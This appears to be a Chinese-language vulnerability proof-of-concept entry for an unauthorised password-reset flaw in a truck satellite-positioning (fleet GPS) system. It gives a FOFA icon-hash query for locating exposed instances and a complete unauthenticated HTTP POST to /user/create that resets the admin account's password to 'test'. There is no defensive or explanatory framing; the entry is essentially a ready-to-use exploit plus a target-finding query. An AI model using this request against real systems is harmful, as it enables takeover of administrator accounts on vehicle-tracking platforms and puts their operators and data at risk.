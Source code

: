 ## 卡车卫星定位系统create存在未授权密码重置漏洞

## fofa
```
icon_hash="1553867732"
```
![image](../../images/3ce718e2-b8cf-4316-9b47-70997ee75723.png)


## poc
```
POST /user/create HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

account=admin&id=1&password=test&passwordRepeat=test&groupName=111&roleid=5&validend=&phone=&email=&chncount=36&flowType=1&oldFlowType=&flowVal=&flowAlarmVal=&oldFlowAlarmVal=&logContent=111&guid=222&token=
```
